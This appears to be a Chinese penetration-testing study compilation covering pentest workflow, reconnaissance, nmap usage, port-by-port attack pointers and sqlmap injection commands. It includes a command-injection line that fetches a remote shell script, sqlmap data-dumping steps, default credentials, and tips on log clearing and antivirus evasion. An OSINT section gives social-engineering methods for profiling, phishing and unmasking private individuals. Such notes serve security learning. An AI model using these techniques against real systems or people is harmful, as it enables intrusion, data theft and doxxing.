

写在开头：     知识面，决定看到的攻击面有多广。     知识链，决定发动的杀伤链有多深。

## \#记录一下[渗透测试](https://so.csdn.net/so/search?q=渗透测试&spm=1001.2101.3001.7020)中的一些知识点

\#渗透测试可以说是模拟黑客入侵的行为，与之不同的是，我们目的是提高系统的安全性，保护系统而进行的测试。

常规渗透测试基本步骤，主要分为8个步骤：明确目标、信息收集、漏洞探测、漏洞验证、信息分析、获取所需、文档整理、生成报告。流程如下图所示

渗透测试基本流程

1. 明确目标

确定目标范围、限度、需求等，然后制定渗透测试方案：

确定范围：测试目标ip、域名、内外网、测试账户、子网、旁站等。

确定规则：能渗透到什么程度，允许测试的时间段和周期、能否修改上传、提权、查看数据等敏感操作。

确定需求：web应用服务漏洞、业务逻辑漏洞、人员权限管理漏洞等。

2. 信息收集、

利用各种方法获取更多关于目标的信息，利用方式如扫描，开放搜索获取后台页面，未授权页面，敏感URL等：

基础信息：IP、网段、域名、端口。

应用信息：各端口的应用。例如web应用、邮件应用、等等。

系统信息：操作系统和对应版本。

版本信息：所有探测到的版本，如中间件，系统等。

服务信息：各种服务开放情况，是否有高危服务等。

人员信息：域名注册人员信息，web应用用户信息，管理员信息等。

防护信息：防护设备，如防火墙，安全狗等。

3. 漏洞探测

结合信息收集的信息，分析找到漏洞点。

利用漏扫工具，如awvs、appscan、xray、goby等。

看历史漏洞及补丁是否修复。

是否使用含有漏洞的版本。

安全配置规范，Web应用漏洞等。

4. 漏洞验证

将上一步中发现的全部漏洞都验证一遍。结合实际情况，搭建模拟环境进行试验。成功后再应用于目标。

5. 信息分析

分析前面的信息为下一步实施渗透做准备。准备好上一步探测到的漏洞利用方法，精准打击目标。

绕过防御机制。

定制渗透路径，寻找突破口。

绕过检测机制、流量监控，杀毒软件，恶意代码检测等（免杀）。

6. 获取所需

获取内部信息：基础设施信息（网络架构，VPN，路由，拓扑等）。

内网：内网入侵，权限维持（一般客户不需要此步骤）。

清理痕迹：清理相关日志、操作记录、文件等。

7. 信息整理

渗透工具：整理渗透过程中用到的代码，poc，exp等。

收集信息：整理渗透过程中收集到的一切信息。

漏洞信息：整理渗透过程中遇到的各种漏洞，脆弱位置信息等。

8. 形成报告

按照与客户确定的范围、需求整理渗透测试结果形成报告。提供漏洞修复建议和解决方法。

每个步骤具体内容在网上也有许多规范和大佬姿势，具体情况也是根据实际项目来。一般漏洞扫描到第4步就结束并输出报告了，而渗透测试则是还需要更近一步渗透，利用漏洞获取目标权限，所需信息等，包括绕过一些防御机制，免杀等。甚至有时还需要花费几个星期至几个月，这也是渗透测试花费人力更多，费用更高原因。

Tips

拿到ip明确目标后，一般能进行扫描软件扫描，可以先扫描一波

在扫描的同时我会浏览一下网站的界面功能及结构，利用Wappalyzer等工具查看版本信息等

因为我待的类似在甲方，并且在内网不用搜索引擎搜索一些敏感信息，这里我直接利用nmap 进行探测，查看端口开放服务和版本，网上搜索版本是否有历史漏洞，如redis未授权漏洞，像22端口开放，可以试试弱口令爆破。nmap的功能有很多，里面也有很多脚本可以直接利用。

扫描敏感目录，目录扫描工具也很多，不同工具扫描出结果也不同，我用的dirmap和dirb结果也有区别，不能说哪款工具不行，都有特点，这里我们整合一下结果就好了，几款工具一起往往有意外发现。在工具强大之外还需要看字典的，这个需要自己经验不断补充，制作适合自己的字典。

中间件信息，看看是否是老版本了，含有已知漏洞，补丁是否修复

注入，浏览页面看参数id，uname，classid等是否存在注入，存在可以丢sqlmap跑，或者看到有这种参数的直接丢sqlmap

XSS，见框框就插，我测试时，由于是内部开发项目，一般就针对性的测试一下

CSRF，有token无referer直接删除token；有token和referer，删除referer或值，有验证可以构造referer值，如果响应不报错说明存在，也可以利用burpsuite生成csrf poc来测试

看看有没有上传处测试一下，一般是白名单我就不测试了，先下一步

登陆处，爆破，有验证码可以抓包观察验证码是否固定，有迹可寻

找回密码处，XSS，注入，逻辑漏洞可能存在，抓包多观察

有账号登陆的情况下，可以测试一下会话固定漏洞，登陆前后cookie值变化，越权漏洞

URL跳转，有些地址后面会提交到其他页面，多观察地址

还有就是抓包分析看看js或者浏览器查看，有些js里面可能有意向不到的发现

这些都是漏洞发现的部分思路，后续还有利用漏洞获取webshell，提权，内网渗透，一般客户要求的渗透测试也不用这么深入，点到为止。

向那些追击黑产的大佬致敬。
————————————————
版权声明：本文为CSDN博主「SecAaron」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/shinyhuang_/article/details/121338584

## **0x01 信息收集**  

在一次Web渗透过程中，信息收集的目的是站在旁观者的角度，去了解整个Web应用的全貌。

### **1. 目标确认****

#### 1.1 域名注册信息**

通过如下步骤确认目标所有者信息：

   Whois 目标域名/主机名： whois [example.com](                   )

   解析目标域名/主机名的IP地址： dig +short [example.com](                   )

   获取域名的详细解析过程    dig +trace [example.com](                   ) 

   

获取真实IP：

​     验证是否存在CDN

​     方法1：

     使用各种多地 ping 的服务，查看对应 IP 地址是否唯一，如果不唯一多半是使用了CDN， 多地 Ping 网站有：

​     http://ping.chinaz.com/

​     http://ping.aizhan.com/

​     http://ce.cloud.360.cn/

​     方法2：

     试用nslookup进行检测，如果返回域名解析对应多个IP，那么多半是试用了CDN.

​     nslookup example.com

​     方法3:

​     在线工具查看是否存在CDN，可以参考以下站点:

​     http://www.cdnplanet.com/tools/cdnfinder/

​     http://www.ipip.net/ip.html

​    绕过CDN查找网站真实IP

​    1.查询历史DNS记录(ip的历史解析域名，域名的历史解析ip)

    查看 IP 与 域名绑定的历史记录，可能会存在使用 CDN 前的记录，相关查询网站有：

​    https://dnsdb.io/zh-cn/

​    https://x.threatbook.cn/

https://censys.io/ipv4?q=baidu.com

非常牛逼的IP记录站，还能分析内链之类找出可能的IP地址，此外还会记录历史。

​         viewdns.info

同样是个令站长十分蛋疼的DNS历史记录网站，记录了几年内的更改记录。

[securitytrails.com](http://securitytrails.com/)

https://site.ip138.com/

​       庞大的DNS历史数据库，可以查出几年内网站用过的IP、机房信息等。

[iphostinfo.com](http://iphostinfo.com/)

​        **注意：这个网站可以遍历FTP、MX记录和常见二级域名，有些站长喜欢把邮箱服务也放在自己主机上，侧面泄露了真实的IP地址，通过这个网站可以进行检查。**

​    2.查询子域名（捷径，去众测平台、github找官方发布过的）

注意：有可能有些站长只给主站或流量大的子域名做了CDN,而很多子域名都是和主站在同一台服务器上，或者 C段中，这样可以通过**子域名来辅助找到网站真实IP**

爆破子域名:

   layer子域名挖掘机（字典要自己丰富）

   http://z.zcjun.com/(在线子域名挖掘)

   fuzzdomain 很好用，速度快

   

   搜索引擎拿子域名、旁站（同IP网站）、C段：

   可用搜索引擎语法查询子域名：

谷歌 百度 bing 搜狗(搜索微信文章) 雅虎 略有差异

详细用法:

​      （1）site: =主域名,搜索其主要域名下面的子域名

​      （2）allintext: = 搜索文本,但不包括网页标题和链接

​      （3）allinlinks: = 搜索链接, 不包括文本和标题。

​      （4）related:URL = 列出于目标URL地址有关的网页。

​      （5）link:URL = 列出到链接到目标URL的网页清单。

​      （6）使用“-”去掉不想看的结果，例如site:[baidu.com](http://baidu.com/) -[image.baidu.com](http://image.baidu.com/)

百度语法：

https://www.cnblogs.com/k0xx/p/12794452.html

谷歌语法：

https://blog.csdn.net/u012991692/article/details/82937100?biz_id=102&utm_term=Googlehack&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-82937100&spm=1018.2118.3001.4187

  GHDB：

https://www.exploit-db.com/google-hacking-database

3.资产搜索(旁站\C段\特征):

​    

[https://www.shodan.io](https://www.shodan.io/)(关键字爆ip)

​    [https://fofa.so](https://fofa.so/) 

  https://www.zoomeye.org/

​    http://www.yunsee.cn/info.html （云悉在线资产平台)

[http://subdomain.chaxun.la](http://subdomain.chaxun.la/) （查询啦）

  https://www.virustotal.com/gui/home/search

https://dnsdumpster.com/

 [https://duckduckgo.com](https://duckduckgo.com/) （一个不会存储你个人信息的搜索引擎）

 

 https://crt.sh/（SSL证书查询）

 https://icp.aizhan.com/(域名备案)

   

4.对方服务器给自己发邮件暴露IP

5.APP客户端爆ip

   

#### **1.2 DNS信息查询**

目的:

注册者名称及邮箱,再反查其他域名

手机号 座机号

ASN号

地址

##### 在线DNS信息查询工具

https://dnsdumpster.com/ 

[https://www.dnsdb.io](https://www.dnsdb.io/) （DNS搜索引擎）

[http://searchdns.netcraft.com](http://searchdns.netcraft.com/)

http://whois.nawang.cn/

https://whois.aliyun.com/

https://whois.west.cn/

http://whois.chinaz.com/ (站长之家)

https://www.tianyancha.com/ （天眼查）

http://www.gsxt.gov.cn/index.html （国家企业信用信息系统）

[www.beianbeian.com/](http://www.beianbeian.com/) （ICP备案查询）

#### **1.3 测试域传送漏洞**

域传送是一种DNS事务，用于在主从服务器间复制DNS记录。虽然如今已经很少见主机会开启，但是还是应该确认一下。一旦存在域传送漏洞，就意味着你获取了整个域下面所有的记录。

dnsrecon -d [example.com](                   )

dnsenum [example.com](                   )  包含自动检测域传送漏洞

#### **1.4 业务相关**

github泄露：

in:name test        #仓库标题搜索含有关键字 SpringCloud

in:descripton test     #仓库描述搜索含有关键字

in:readme test       #Readme文件搜素含有关键字

stars:>3000 test      #stars数量大于3000的搜索关键字

stars:1000..3000 test   #stars数量大于1000小于3000的搜索关键字

forks:>1000 test      #forks数量大于1000的搜索关键字

forks:1000..3000 test   #forks数量大于1000小于3000的搜索关键字

size:>=5000 test      #指定仓库大于5000k(5M)的搜索关键字

pushed:>2019-02-12 test  #发布时间大于2019-02-12的搜索关键字

created:>2019-02-12 test  #创建时间大于2019-02-12的搜索关键字

user:test         #用户名搜素

license:apache-2.0 test  #明确仓库的 LICENSE 搜索关键字

language:java test     #在java语言的代码中搜索关键字

user:test in:name test   #组合搜索,用户名test的标题含有test的

网盘泄露：

各种云网盘，详见虫部落搜索:[magnet.chongbuluo.com](http://magnet.chongbuluo.com/)

敏感路径扫描：https://github.com/ring04h/weakfilescan

### **2. OSINT 公开情报收集**

##### **2.1社会工程学技巧(**[网络安全攻防：社会工程学之概述](evernote:///view/31101406/s32/16870416-0cf3-485e-9e1d-1cc35caf7cf1/16870416-0cf3-485e-9e1d-1cc35caf7cf1/))

查看注册的网站：0xreg reg007

知道账号去已注册的网站找回密码，可以看到打码后的用户名、邮箱、真实姓名等信息，如果运气好没准能从数据包或html中找到未被打码的信息

可以从这些方面判断用户是否注册过

找回密码

输入账号，如果进入下一步了则该账号存在

登录

输入账号和密码，如果提示密码错误，则表示该用户已存在

注册

填写账号时一般网站会去检测该账号是否已存在，如果已存在则会提示不可重复注册

知道QQ

通过QQ邮箱和QQ号搜索支付宝、淘宝账号等其他可能的常用平台

去腾讯\新浪微博搜索

通过微信搜索

查看QQ空间\相册\地区\星座\生日\昵称(后续构建字典以及跨平台搜集)

通过说说、留言、日志找到其好友

加QQ钓鱼\共同好友\可能认识的人

知道手机号

搜索QQ、微信、钉钉等社交账号

在比较火的一些APP和网站上注册或忘记密码来判断是否注册过账号

查询支付宝账号，尝试输入常见姓氏获取名字(转账到该手机号,会提示输入姓氏验证)

通过对方的职业、兴趣找到该领域知名度较高的社交网站反查

根据在QQ空间、朋友圈等动态用百度识图识别照片

在微博、ins、Twitter、fb、百度贴吧搜索相近关键字，按地域、年龄、男女、用户名等筛选

留意社交动态

发布时间线

使用什么客户端 iPhone Android还是浏览器

 针对客户端预先制定exploit 

​        注意每一条链接 / 图片 / 视频

链接可能包含用户ID

图片可能包含水印，exif可能会有GPS定位和手机类型,图片内容特征

视频也有可能有水印暴露社交账号ID,拍摄地点

  从最早发布的动态看起，会有很大收获

一般得到一个账号的密码就相当于得到了其他账号的密码

一般人不同账号的用户名都是相同或相近的

一般人的社交账号头像用的都是一样的

尝试破解社保、公积金账号、身份证号（出生地、生日、星座、派出所代码）

   虫部落快搜之文件搜索:https://search.chongbuluo.com/

qq群、群文件、贴吧论坛、目标自用论坛等社交平台钓鱼和信息泄露(爬邮箱等信息)

电子邮件伪造、网络钓鱼

  下载恶意程序

  输入敏感信息

大部分信息可以用来生成密码字典

对人：说服对方达成一致、恐吓对方（敏感词、漏洞、病毒、权威机构名称、），钓鱼获取信息

##### **2.2搜索引擎OSINT**

###### Google Hacking(baidu\bing\souhu\github)

**GoogleHacking**常用语法

1、intext：（仅针对Google有效） 把网页中的正文内容中的某个字符作为搜索的条件

2、intitle： 把网页标题中的某个字符作为搜索的条件

3、cache： 搜索搜索引擎里关于某些内容的缓存，可能会在过期内容中发现有价值的信息

4、filetype/ext： 指定一个格式类型的文件作为搜索对象

5、inurl： 搜索包含指定字符的URL

6、site： 在指定的(域名)站点搜索相关内容

**GoogleHacking其他语法**

1、引号 ” ” 把关键字打上引号后，把引号部分作为整体来搜索

2、or 同时搜索两个或更多的关键字

3、link 搜索某个网站的链接 link:[baidu.com](http://baidu.com/)即返回所有和baidu做了链接的URL

4、info 查找指定站点的一些基本信息

**GoogleHackingDatabase:[google-hacking-database](ht**tps://www.exploit-db.com/google-hacking-database)

**GoogleHacking典型用法(特定资产的万能密码也要积累)**

- - - 管理后台地址

site:[target.com](http://target.com/) intext:管理 | 后台 | 后台管理 | 登陆 | 登录 | 用户名 | 密码 | 系统 | 账号 | login | system

site:[target.com](http://target.com/) inurl:login | inurl:admin | inurl:manage | inurl:manager | inurl:admin_login | inurl:system | inurl:backend

site:[target.com](http://target.com/) intitle:管理 | 后台 | 后台管理 | 登陆 | 登录

- - - 上传类漏洞地址

site:[target.com](http://target.com/) inurl:file

site:[target.com](http://target.com/) inurl:upload

- - - 注入页面

site:[target.com](http://target.com/) inurl:php?id=

- - - 编辑器页面

site:[target.com](http://target.com/) inurl:ewebeditor

- - - 目录遍历漏洞

site:[target.com](http://target.com/) intitle:index.of

- - - SQL错误

site:[target.com](http://target.com/) intext:"sql syntax near" | intext:"syntax error has occurred" | intext:"incorrect syntax near" | intext:"unexpected end of SQL command" | intext:"Warning: mysql_connect()" | intext:”Warning: mysql_query()" | intext:”Warning: pg_connect()"

- - - phpinfo()

site:[target.com](http://target.com/) ext:php intitle:phpinfo "published by the PHP Group"

- - - 配置文件泄露

site:[target.com](http://target.com/) ext:.xml | .conf | .cnf | .reg | .inf | .rdp | .cfg | .txt | .ora | .ini

- - - 数据库文件泄露

site:[target.com](http://target.com/) ext:.sql | .dbf | .mdb | .db

- - - 日志文件泄露

site:[target.com](http://target.com/) ext:.log

- - - 备份和历史文件泄露

site:[target.com](http://target.com/) ext:.bkf | .bkp | .old | .backup | .bak | .swp | .rar | .txt | .zip | .7z | .sql | .tar.gz | .tgz | .tar

- - - 公开文件泄露

site:[target.com](http://target.com/) filetype:.doc | .docx | .xls | .xlsx | .ppt | .pptx | .odt | .pdf | .rtf | .sxw | .psw | .csv

- - - 邮箱信息

site:[target.com](http://target.com/) intext:@[target.com](http://target.com/)

site:[target.com](http://target.com/) 邮件

site:[target.com](http://target.com/) email

- - - 社工信息

site:[target.com](http://target.com/) intitle:账号 | 密码 | 工号 | 学号 | 身份证

##### **2.3浏览器实用插件：**

Wappalyzer：识别网站使用的中间件及其版本，再去漏洞库和搜索引擎找公开披露的漏洞

SwitchOmega：快捷切换代理

shodan：识别开放端口，主机服务等

hacktools:综合插件,很强大

firefox渗透便携版,工具集成很多

**注意：根据获得服务、中间件信息、编辑器版本、数据库等OSINT去各大漏洞库、搜索引擎找漏洞利用**

##### **2.4乌云和cnvd**

乌云库\乌云镜像\GHDB\CNVD等公开漏洞库

## **0x02 Mapping**

> 在一次渗透测试过程中，Mapping的目的是站在一个普通用户的角度去了解整个应用的全貌。

### **1.主动扫描**

#### **1.1常见服务漏洞:**

nmap的使用:

**脚本扫描，隐蔽扫描，端口扫描，服务识别，OS识别，探测WAF**

  nmap脚本主要分为以下几类，在扫描时可根据需要设置–script=类别这种方式进行比较笼统的扫描：

------

> auth: 负责处理鉴权证书（绕开鉴权）的脚本
>
> broadcast: 在局域网内探查更多服务开启状况，如dhcp/dns/sqlserver等服务
>
> brute: 提供暴力破解方式，针对常见的应用如http/snmp等
>
> default: 使用-sC或-A选项扫描时候默认的脚本，提供基本脚本扫描能力
>
> discovery: 对网络进行更多的信息，如SMB枚举、SNMP查询等
>
> dos: 用于进行拒绝服务攻击
>
> exploit: 利用已知的漏洞入侵系统
>
> external: 利用第三方的数据库或资源，例如进行whois解析
>
> fuzzer: 模糊测试的脚本，发送异常的包到目标机，探测出潜在漏洞 intrusive: 入侵性的脚本，此类脚本可能引发对方的IDS/IPS的记录或屏蔽
>
> malware: 探测目标机是否感染了病毒、开启了后门等信息
>
> safe: 此类与intrusive相反，属于安全性脚本
>
> version: 负责增强服务与版本扫描（Version Detection）功能的脚本
>
> vuln: 负责检查目标机是否有常见的漏洞（Vulnerability），如是否有MS08_067

（1） nmap --script=auth 192.168.137.*

负责处理鉴权证书（绕开鉴权）的脚本,也可以作为检测部分应用弱口令

（2）nmap --script=brute 192.168.137.*

提供暴力破解的方式  可对数据库，smb，snmp等进行简单密码的暴力猜解

（3）nmap --script=default 192.168.137.* 或者 nmap -sC 192.168.137.*

默认的脚本扫描，主要是搜集各种应用服务的信息，收集到后，可再针对具体服务进行攻击

（4）nmap --script=vuln 192.168.137.*

检查是否存在常见漏洞

（5）nmap -n -p445 --script=broadcast 192.168.137.4

在局域网内探查更多服务开启状况

（6）nmap --script external 202.103.243.110

利用第三方的数据库或资源，例如进行whois解析

nmap --script banner ip

nmap -p port -sV ip

获取软件版本信息

nmap -O ip

操作系统信息，版本

nmap -A -v ip

完整信息获取

-sN;-sF;-sX 隐蔽扫描

-sN是Null扫描,是通过发送非常规的TCP通信数据包对计算机进行探测.

nmap -sN 127.0.0.1

-sF是FIN扫描,当我们使用TCP SYN扫描时可能会被目标主机的防火墙发现,会阻止SYN数据包,这时我们使用TCP FIN扫描方式会有很好的穿透效果.

nmap -sF 127.0.0.1

- - 扫描前1000号TCP端口

    nmap 192.168.100.2

  - Ping扫描8个本地主机(按ARP、ICMP、TCP 80的顺序)

    nmap –sP 192.168.100.0-7

  - 扫描80,443端口

    nmap -p 80,443 192.168.100.2

  - 扫描前1000号TCP端口，OS指纹，服务，然后运行一个NSE脚本

    sudo nmap -A 192.168.100.2

  - 扫描全部65535个TCP端口，OS指纹，服务，然后运行一个NSE脚本

    sudo nmap –A –p- 192.168.100.2

  - 扫描前1000号UDP端口

    sudo nmap -sU 192.168.100.2

  - 扫描所有65535个UDP端口

    sudo nmap -sU –p- 192.168.100.2

  - 扫描所有65535个UDP端口，并获取服务、OS指纹，之后运行一些NSE脚本

    sudo nmap –sU -p- -A 192.168.100.2

nmap脑图备查:

#### **1.2常见端口漏洞:**

[常见端口渗透总结 - 戚源 - 博客园](evernote:///view/31101406/s32/665dad88-1422-4abc-89fa-cedae806fc53/665dad88-1422-4abc-89fa-cedae806fc53/)

**Masscan** -p80,800 ip --rate=10000

识别端口后，百度谷歌相应端口攻击办法（端口渗透总结，可见笔记）

21 / FTP

匿名/暴力破解

拒绝服务

22 / SSH

暴力破解

23 / telnet

Winbox(CVE-2018-14847)

https://github.com/BasuCert/WinboxPoC

弱口令 / 暴力破解

161 / snmp

弱口令

https://blog.csdn.net/archersaber39/article/details/78932252

389 / ladp

匿名访问

https://www.cnblogs.com/persuit/p/5706432.html

ladp注入

http://www.4hou.com/technology/9090.html

https://www.freebuf.com/articles/web/149059.html

443 / ssl

openssl心脏出血

https://paper.seebug.org/437/http://www.anquan.us/static/drops/papers-1381.htmlhttps://www.freebuf.com/sectool/33191.html

445 / smb

win10拒绝服务

永恒之蓝RCE

875 / rsync

匿名访问

http://www.anquan.us/static/bugs/wooyun-2016-0190815.htmlhttps://paper.seebug.org/409/http://www.91ri.org/11093.html

1433 / mssql

暴力破解

http://www.anquan.us/static/drops/tips-12749.htmlhttps://www.seebug.org/appdir/Microsoft%20SQL%20Server

1521 / oracle

暴力破解

https://www.exploit-db.com/exploits/33084

2601 / zebra

http://www.anquan.us/static/bugs/wooyun-2013-047409.html

3128 / squid

3306 / mysql

RCE

http://www.91ri.org/17511.html

CVE-2015-0411

hash破解

https://www.freebuf.com/column/153561.html

waf绕过

https://www.freebuf.com/articles/web/155570.html

general_log_file getshell

https://www.freebuf.com/column/143125.html

提权

http://www.91ri.org/16540.html

3312 / kangle

getshell

https://www.secpulse.com/archives/23927.html

3389 / rdp

shift 放大镜 输入法绕过 guest用户

永恒之蓝(ESTEEMAUDIT)

https://www.freebuf.com/articles/system/132171.htmlhttps://www.anquanke.com/post/id/86328

ms12-020

https://blog.csdn.net/meyo_leo/article/details/77950552

4440 / rundeck

https://www.secpulse.com/archives/29500.html

4848 / glassfish

文件读取

https://www.secpulse.com/archives/42277.html

https://www.anquanke.com/post/id/85948

GlassFish2 / admin:admin GlassFish3,4 / 如果管理员不设置帐号本地会自动登录,远程访问会提示配置错误

5432 / PostgreSQL

RCE

https://www.cnblogs.com/KevinGeorge/p/8521496.html

https://www.secpulse.com/archives/69153.html

默认账号postgres

参考

http://www.91ri.org/13070.html

http://www.91ri.org/6507.html

5672,15672,4369,25672 / RabbitMQ

（guest/guest）

5900 / VNC

https://www.seebug.org/appdir/RealVNC

5984 / CouchDB

 http://xxx:5984/_utils/

6082 / varnish

CLI 未授权

https://www.secpulse.com/archives/10681.html

6379 / redis

Redis未授权

ssh publickey

crontab

webshell

反序列化

开机自启文件夹写bat

参考

https://www.freebuf.com/column/170710.html

7001,7002 / WebLogic

默认弱口令

weblogic/weblogic ,weblogic/welcom ,weblogic/welcom1,weblogic1/weblogic

反序列

CVE-2018-2628

https://www.freebuf.com/articles/web/169770.html

https://www.seebug.org/appdir/WebLogic

9200,9300 / elasticsearch

CVE-2015-1427

http://www.anquan.us/static/drops/papers-5142.html

CVE-2018-17246

https://www.seebug.org/vuldb/ssvid-97730

参考

https://www.seebug.org/search/?keywords=elasticsearch

9000 / fcgi

https://paper.seebug.org/289/

9043 / WebSphere

Websphere8.5

https://localhost:9043/ibm/console/logon.jsp

Websphere6-7

http://localhost:9043/ibm/console

后台未授权，登录后可部署WAR包

SOAP服务有反序列化

弱口令：admin / password

11211 / memcache

未授权

UDP反射

https://shockerli.net/post/memcached-udp-reflection-attack-bug/

27017,27018 / Mongodb

未授权

注入

https://www.anquanke.com/post/id/83763

phpMoAdmin RCE

https://www.aqniu.com/threat-alert/6978.html

50000 / SAP

 SAP命令执行

https://www.secpulse.com/archives/20204.html

50070,50030 / hadoop

未授权

https://www.freebuf.com/vuls/173638.html

命令执行

host:50060/pstack?pid=123|wget http://somehost/shell.sh

https://www.seebug.org/search/?keywords=hadoop

其他

http://www.91ri.org/15441.html

#### 1.3WAF及bypass

探测WAF

Nmap探测WAF有两种脚本，一种是http-waf-detect，一种是http-waf-fingerprint。

nmap -p port --script=http-waf-detect ip

wafw00f -a example.com

sqlmap-u “http://www.vxxxx.org/ex.php?id=1” --identify-waf

bypass:

**待补充**

#### **1.4****目录、后台和敏感路径文件扫描**

御剑目录（土司专版，笔记里有）、后台扫描（图片属性地址暴露），

​    完善目录和账密字典方法：

​    {

​       H:\字典；

​       pydictor新建；

​       合并后去重复：

​         dymerge.py -u

​         python pydictor.py -tool uniqbiner /my/dict/dirpath --output uniq.txt

​         python pydictor.py -tool uniqifer /tmp/dicts.txt --output /tmp/uniq.txt

​     }

**2.人工浏览\一个请求一个请求的burp**

**非常**重要,有必要手动去浏览每个页面，点击页面上每一个跳转，这样在Burp的sitemap里面就可以出现这些请求和响应。

> ！！！手工浏览对于单页应用非常非常重要。自动化的网页爬虫不能够爬到单页应用因为单页应用的HTTP请求都是用异步的AJAX来进行的。

图片后台地址\图片后面的信息

   跳转参数\奇怪的参数

   泄露邮箱等等

   业务逻辑\架构

**3.自动化**

  自动化渗透测试框架:(**待补充**)

Sn1per

Ary 

[Ary自动渗透使用体验](evernote:///view/31101406/s32/a569ef3d-46f9-4355-888b-0ebb572f28ec/a569ef3d-46f9-4355-888b-0ebb572f28ec/)

​    

## **0x03 漏洞挖掘**

### **1.漏洞扫描工具**

  注意:登录类网站扫描要带cookies扫才能扫到

#### **1.1Nikto** **Web服务漏洞扫描器**

Tips:利用-Format选项来导出特定格式的扫描结果，使扫描结果更容易阅读和分析。

nikto -host [http://example.com](                   ) -output ~/nikto.html -Format html

NIKTO使用方法：

1、命令：nikto -update #升级，更新插件；

2、Nikto -list-plugins #查看插件；

3、Nikto -host [http://1.1.1.1](http://1.1.1.1/) #扫描目标：域名方式；

4、Nikto -host [http://1.1.1.1](http://1.1.1.1/) -output #扫描并输出结果

5、Nikto -host 1.1.1.1 -port 80 #扫描目标：ip地址加端口号

6、Nikto -host [www.baidu.com](http://www.baidu.com/) -port 443 -ssl #扫描https网站

7、Nikto -host 文件名.txt #批量扫描目标

8、nmap -p80 192.168.1.0/24 -oG - | nikto -host -   #利用nmap扫描开放80端口的IP段并且oG（nmap结果输出并整理）通过管道的方式“|”用nikto进行扫描

9、nikto -host 192.168.0.1 -useproxy [http://localhost:8070](http://localhost:8070/)   #利用代理进行扫描

10、-vhost   #当一个网站存在多个端口时可以使用-vhost遍历所有网站进行扫描或一个ip对应多个网站

11、Nikto交互形参数：

| 空格 | 报告当前扫描状态         |
| ---- | ------------------------ |
| v    | 显示详细信息（verbose）  |
| d    | 调试信息（及其详细信息） |
| e    | 显示错误信息             |
| p    | 显示扫描进度             |
| r    | 显示重定向信息           |
| c    | 显示cookie               |
| a    | 身份认证过程显示出来     |
| q    | 退出                     |
| N    | 扫描下一个目标           |
| P    | 暂停扫描                 |

配置文件：

路径：/etc/nikto.conf

User Agent中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别客户使用的操作系统及版本；

在nikto中最好修改成别的浏览器user agent；

设置cookie：

在配置文件中找到cookie进行设置（#STATIC-COOKIE= "cookie1"="cookie value";"cookie2"="cookie val"）

IDS逃避技术：‘

主要为了躲避IDS、IPS检测告警

**-evasion #此参数使用方式（Nikto -host [http://1.1.1.1](http://1.1.1.1/) -evasion 1234）**

逃避方式共8种：

1、随机url编码，2、自选路径，3、过早结束的URL，4、优先考虑长随机字符串

5、参数欺骗，6、使用TAB作为命令的分隔符，7、使用变化的URL，8、使用Windows路径分隔符

#### **1.2****AWVS漏扫**

这个没什么好说的，破解版到处都是。

#### **1.3NESSUS**

实时更新插件的漏扫，很好用，就是激活流程麻烦。

破解流程：

#### **1.4Xray自动化**

自动化的漏洞挖掘

burp+xray：

[BurpSuite + Xray 被动扫描配置 - Ritte - 博客园](evernote:///view/31101406/s32/5c2c96e9-106b-4004-a7fa-d26ac849b4ab/5c2c96e9-106b-4004-a7fa-d26ac849b4ab/)

或者直接挂浏览器，点到哪里，扫到哪里

#### **1.5Fuzz**

| **名 称**                         | **描述**                                                     |
| --------------------------------- | ------------------------------------------------------------ |
| Burp Engagement Tools             | Burp Suite Pro中自带的有特殊用途的工具集                     |
| Engagement Tool: Discover Content | Burp Suite Pro自带的用于强制浏览的工具                       |
| Burp Intruder                     | Burp Suite中可自定义的用于自动化的攻击的模块。(比如brute forcing, injection等) |
| FuzzDB                            | 包含各种恶意输入、资源名、用于grep搜索响应内容的字符串、Webshell等。 |

Fuzz可以发现应用程序中没有被引用但是确实是可以访问的页面。

Discover Content是Burp中专门用于此目的的工具。

除此之外，Burp Intruder也可以通过字典攻击来实施强制浏览(通常是在url参数和文件路径部分进行修改)。

FuzzDB包含一些用于此目的的非常牛逼的字典，可以在[这里](https://github.com/fuzzdb-project/fuzzdb/tree/master/discovery)看看。

####  

### **2.手动挖掘**

#### **2.1SQL注入：**

初步测试：

见框就上，加' " ) ))% and 1=1 and 1=2，

抓包爆破常用SQL注入payload

通过搜索引擎，批量查找注入点，详见笔记。

然后用傀儡注入点批量搜集工具

实操案例：

[sql注入思路（登录界面）和网络常用端口_u011975363的专栏-CSDN博客](evernote:///view/31101406/s32/38a37a03-e23b-4ed5-ac81-dd183bce1788/38a37a03-e23b-4ed5-ac81-dd183bce1788/)

​        超级SQL注入工具（github）

sqlmap一把梭：

注意：命令为kali linux中运行的 （windows中用python sqlmap.py执行）

##### 1#、注入六连：

1.sqlmap -u "[http://www.xx.com?id=x](http://www.xx.com/?id=x)"  【查询是否存在注入点

2.--dbs     【检测站点包含哪些数据库

3.--current-db   【获取当前的数据库名

4.--tables -D "db_name" 【获取指定数据库中的表名 -D后接指定的数据库名称

5.--columns -T "table_name" -D "db_name" 【获取数据库表中的字段

6.--dump -C "columns_name" -T "table_name" -D "db_name" 【获取字段的数据内容

##### 2#、COOKIE注入：

sqlmap -u "[http://www.xx.com](http://www.xx.com/?id=x)/xxx.asp" --cookie "id=XXX  cookie" --level 2 【cookie注入 后接cookie值

##### 3#、POST注入：

（1）目标地址http:// [www.xxx.com](http://www.xxx.com/) /login.asp

（2）打开burp代理

（3）点击表单提交

（4）burp获取拦截信息（post）

（5）右键保存文件（.txt）到指定目录下

（6）运行sqlmap并执行如下命令：

用例：sqlmap -r okay.txt -p username

// -r表示加载文件(及步骤（5）保存的路径)，-p指定参数（即拦截的post请求中表单提交的用户名或密码等name参数）

（7）自动获取表单：--forms自动获取表单

例如：sqlmap -u [www.xx.com/login.asp](http://www.xx.com/login.asp) --forms

（8）指定参数搜索：--data

